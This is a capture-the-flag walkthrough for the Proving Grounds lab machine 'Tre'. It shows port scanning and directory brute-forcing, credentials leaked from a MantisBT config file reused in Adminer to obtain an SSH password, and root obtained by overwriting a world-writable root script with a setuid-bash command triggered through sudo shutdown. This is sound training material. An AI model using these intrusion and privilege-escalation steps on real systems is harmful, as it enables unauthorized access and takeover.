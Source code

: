 ```yaml
---
layout: default
title: Tre
parent: Proving Grounds Play
nav_order: 24
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/tre]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.213.84
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-13 19:16 EST
Nmap scan report for 192.168.213.84
Host is up (0.12s latency).
Not shown: 65519 closed tcp ports (reset), 13 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 99:1a:ea:d7:d7:b3:48:80:9f:88:82:2a:14:eb:5f:0e (RSA)
|   256 f4:f6:9c:db:cf:d4:df:6a:91:0a:81:05:de:fa:8d:f8 (ECDSA)
|_  256 ed:b9:a9:d7:2d:00:f8:1b:d3:99:d6:02:e5:ad:17:9f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Tre
|_http-server-header: Apache/2.4.38 (Debian)
8082/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Tre
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.00 seconds

```

# Enumeration

---

## 80 | HTTP

### WFUZZ/Gobuster

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ gobuster dir -u http://192.168.213.84 -w /usr/share/wordlists/custom/large_combined.txt -x aspx,php,txt,conf -t 80 -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.213.84
[+] Method:                  GET
[+] Threads:                 80
[+] Wordlist:                /usr/share/wordlists/custom/large_combined.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt,conf,aspx
[+] Timeout:                 10s
===============================================================
2023/11/13 22:32:39 Starting gobuster in directory enumeration mode
===============================================================
/info.php             (Status: 200) [Size: 87828]
/.php                 (Status: 403) [Size: 279]
/system               (Status: 401) [Size: 461]
/cms                  (Status: 301) [Size: 314] [--> http://192.168.213.84/cms/]
/server-status        (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess.aspx       (Status: 403) [Size: 279]
/.htaccess.txt        (Status: 403) [Size: 279]
/.htaccess.php        (Status: 403) [Size: 279]
/.htaccess.conf       (Status: 403) [Size: 279]
/.htpasswd.aspx       (Status: 403) [Size: 279]
/.htpasswd.txt        (Status: 403) [Size: 279]
/.htpasswd.php        (Status: 403) [Size: 279]
/.htpasswd.conf       (Status: 403) [Size: 279]
/adminer.php          (Status: 200) [Size: 4654]
/info.php             (Status: 200) [Size: 87828]
/mantisbt             (Status: 301) [Size: 319] [--> http://192.168.213.84/mantisbt/]
/server-status        (Status: 403) [Size: 279]
Progress: 1132565 / 1132570 (100.00%)

```

_adminer.php_ appears to be a MySQL login page

![adminer](../../../assets/images/ctfs/proving_grounds/tre/adminer.png)

Scanned _/mantisbt_ and found _/config_

Checking _/mantisbt/config/a.txt_

```bash
# --- Database Configuration ---
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';
```

# Exploitation

---

Return to the _/adminer.php_ page to use the discovered credentials.

![logon](../../../assets/images/ctfs/proving_grounds/tre/logon.png)

Select the _sql command_ menu and run a select ALL command against the _mantis_user_table_

![creds](../../../assets/images/ctfs/proving_grounds/tre/creds.png)

The password for tre is Tr3@123456A!
{: .warn }

We can SSH to the target with the user credentials.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ ssh tre@192.168.213.84
tre@192.168.213.84's password:
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tre@tre:~$ id
uid=1000(tre) gid=1000(tre) groups=1000(tre),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)

```

# Post-Exploitation

---

## Check Sudo Permissions

```bash
tre@tre:~$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
```

We have the ability to run the _/sbin/shutdown_ command.

Maybe that will come in handy later.

## Check Processes

```bash
tre@tre:~$ ps aux | grep root

root       417  0.0  0.1   6728  3268 ?        Ss   18:57   0:02 /bin/bash /usr/bin/check-system

```

Checking _/usr/bin/check-system_

```bash
tre@tre:~$ ls -la /usr/bin/check-system
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system

```

We can overrite the file.

```bash
tre@tre:~$ echo "chmod +s /usr/bin/bash" > /usr/bin/check-system
tre@tre:~$ cat /usr/bin/check-system
chmod +s /usr/bin/bash
```

Now we can leverage the sudo permissions on _/sbin/shutdown_

```bash
tre@tre:~$ sudo /sbin/shutdown -r


┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ ssh tre@192.168.213.84
tre@192.168.213.84's password:
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Nov 13 23:04:58 2023 from 192.168.45.217
-bash-5.0$ /usr/bin/bash -p
bash-5.0# id
uid=1000(tre) gid=1000(tre) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(tre)
bash-5.0# whoami
root

```
